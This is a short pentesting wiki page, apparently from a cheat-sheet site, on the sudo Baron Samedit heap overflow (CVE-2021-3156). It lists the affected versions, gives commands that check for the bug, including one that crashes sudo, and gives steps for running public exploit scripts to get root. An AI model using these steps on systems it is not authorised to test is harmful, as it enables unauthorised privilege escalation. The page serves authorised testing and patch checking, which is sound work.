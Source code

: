 ```yaml
---
description: CVE-2021–3156
---
```


# Baron Samedit

## Theory

The "Sudo Baro Samedit" is heap buffer overflow exploit allowing any user to escalate privileges to root. No misconfigurations required, this exploit works with the default settings, for any user regardless of Sudo permissions.

The vulnerability was patched, but it didn’t update the version number for sudo or any other binary. So it’s not possible to tell definitively if a version if vulnerable or not just by version number.It can affects any unpatched version of the sudo program from **1.8.2–1.8.31p2** and **1.9.0–1.9.5p1**

## Practice

{% tabs %}
{% tab title="Enumerate" %}
To check the exploitability of sudo, you may run the following commands. If it's returns the `sudoedit: /: not a regular file` error message, then it’s vulnerable. If it returns the sudoedit usage, it’s not.

```bash
sudoedit -s /
```

Or with the following command, if the system is vulnerable it will overwrite the heap buffer and crash the process:

```bash
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
```
{% endtab %}

{% tab title="Exploit" %}
We can use the [Sudo Baron Samedit Exploit](https://github.com/worawit/CVE-2021-3156) made by worawit. For Linux distributions that glibc has tcache support and enabled (CentOS 8, Ubuntu >= 17.10, Debian 10) we can use exploit\_nss.py:

```bash
python3 exploit_nss.py
```

For Linux distribution that glibc has no tcache support:

```bash
python exploit_nss_xxx.py #for specific version
python exploit_userspec.py #Last try
```

Alternativly, we may use the [Sudo Baron Samedit Exploit](https://github.com/blasty/CVE-2021-3156) made by blasty (Ubuntu 18.04.5, Ubuntu 20.04.1, Debian 10.0)\
On the vulnerable host we can do:

```bash
# Make file from source
make

# Replace 0 by your OS target
./sudo-hax-me-a-sandwich 0 

```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://datafarm-cybersecurity.medium.com/exploit-writeup-for-cve-2021-3156-sudo-baron-samedit-7a9a4282cb31" %}
